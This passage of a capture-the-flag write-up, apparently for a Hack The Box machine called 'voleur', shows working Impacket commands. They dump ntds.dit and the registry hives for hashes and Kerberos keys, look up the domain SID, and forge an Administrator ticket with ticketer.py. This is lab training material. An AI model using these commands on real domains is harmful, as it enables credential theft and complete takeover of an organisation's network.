'./Active Directory':
ntds.dit  ntds.jfm

./registry:
SECURITY  SYSTEM

```


This right here is the system in our hands. Almost.  
Let's get these files on our drive and dump them.

```bash
secretsdump.py local -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY
```

So we obviously have the administrator NT Hash from the dump, kerberos keys, and everything we need for system compromise. I wasn't aware at this point in time of how to grab a ticket via a hash without using Rubeus, and it was another tool provided by impacket.

`ticketer.py`
It allows you to not request tickets, but forge them. Because we have the information that Keberos itself uses to create Ticket-granting-tickets, so we can now do that ourselves.

But we do need the domain-sid to proceed though, which is retrieved from another impacket tool: `lookupsids.py`
You can esc right after you see the domain-sid which should pop up instantly. 
```bash
faketime -f +8hr lookupsid.py  voleur.htb/jeremy.combs:$jeremy_pass@dc.voleur.htb -domain-sids -k
```


And the final workflow:

```bash
faketime -f +8hr ticketer.py -domain-sid $domain_sid -domain voleur.htb \
    -user Administrator -hashes :$admin__hash \
    -nthash $krbtgt_nt_hash -aesKey $krb_aes_256bit_key -request Administrator
```

kinit once again, connect to evil-winrm and go grab the flag. I hope you know how to do that by now :)


